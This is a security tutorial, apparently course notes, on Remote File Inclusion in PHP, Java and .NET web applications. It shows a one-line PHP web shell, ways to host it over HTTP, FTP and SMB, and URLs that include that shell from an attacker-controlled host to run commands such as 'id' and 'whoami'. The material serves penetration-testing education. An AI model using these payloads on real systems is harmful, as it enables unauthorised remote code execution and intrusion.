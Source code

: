 # Remote File Inclusion (RFI)
in some cases, we may also be able to include remote files "[Remote File Inclusion (RFI)](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion)", if the vulnerable function allows the inclusion of remote URLs. This allows two main benefits:

1. Enumerating local-only ports and web applications (i.e. SSRF)
2. Gaining remote code execution by including a malicious script that we host
## Local vs. Remote File Inclusion
When a vulnerable function allows us to include remote files, we may be able to host a malicious script, and then include it in the vulnerable page to execute malicious functions and gain remote code execution.
the following are some of the functions that (if vulnerable) would allow RFI:

|**Function**|**Read Content**|**Execute**|**Remote URL**|
|---|:-:|:-:|:-:|
|**PHP**||||
|`include()`/`include_once()`|✅|✅|✅|
|`file_get_contents()`|✅|❌|✅|
|**Java**||||
|`import`|✅|✅|✅|
|**.NET**||||
|`@Html.RemotePartial()`|✅|❌|✅|
|`include`|✅|✅|✅|

> Almost any RFI vulnerability is also an LFI vulnerability, however, an LFI may not necessarily be an RFI.
## Verify RFI
In most languages, including remote URLs is considered as a dangerous practice as it may allow for such vulnerabilities.

This is why remote URL inclusion is usually disabled by default. 

To determine whether an LFI vulnerability is also vulnerable to RFI is to `try and include a URL`, and see if we can get its content to ensure our attempt does not get blocked by a firewall or other security measures. 

So, let's use (`http://127.0.0.1:80/index.php`) as our input string and see if it gets included:
```url
http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php
```

If the `index.php` page got included in the vulnerable section, it is vulnerable to RFI.
- We also see that we were able to specify port `80` and get the web application on that port. If the back-end server hosted any other local web applications (e.g. port `8080`), then we may be able to access them through the RFI vulnerability by applying SSRF techniques on it.
## Remote Code Execution with RFI
The first step in gaining remote code execution is creating a malicious script in the language of the web application, PHP in this case. We can use a custom web shell we download from the internet, use a reverse shell script, or write our own basic web shell:
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Now, all we need to do is host this script and include it through the RFI vulnerability.
- Furthermore, we may host the script through an FTP service or an SMB service, as we will see next.
### HTTP
Now, we can start a server on our machine with a basic python server with the following command, as follows:
```bash
sudo python3 -m http.server <LISTENING_PORT>
```

Now, we can include our local shell through RFI, like we did earlier, but using `<OUR_IP>` and our `<LISTENING_PORT>`. We will also specify the command to be executed with `&cmd=id`:
```
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```

We will then see the execution of the command on the web browser.
### FTP
We may also host our script through the FTP protocol. We can start a basic FTP server with Python's `pyftpdlib`, as follows:
```bash
sudo python -m pyftpdlib -p 21
```
- This may also be useful in case http ports are blocked by a firewall or the `http://` string gets blocked by a WAF.

We can repeat what we did earlier, but use the `ftp://` scheme in the URL, as follows:
```url
http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id
```

By default, PHP tries to authenticate as an anonymous user. If the server requires valid authentication, then the credentials can be specified in the URL, as follows:
```bash
curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```
### SMB
If the vulnerable web application is hosted on a Windows server (which we can tell from the server version in the HTTP response headers), then we do not need the `allow_url_include` setting to be enabled for RFI exploitation, as we can utilize the SMB protocol for the remote file inclusion.
- Windows treats files on remote SMB servers as normal files, which can be referenced directly with a UNC path.

We can spin up an SMB server using `Impacket's smbserver.py`, which allows anonymous authentication by default, as follows:
```bash
impacket-smbserver -smb2support share $(pwd)
```

Now, we can include our script by using a UNC path (e.g. `\\<OUR_IP>\share\shell.php`), and specify the command with (`&cmd=whoami`) as we did earlier:
```url
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```
> Note: Accessing remote SMB servers over the internet may be disabled by default, depending on the Windows server configurations.
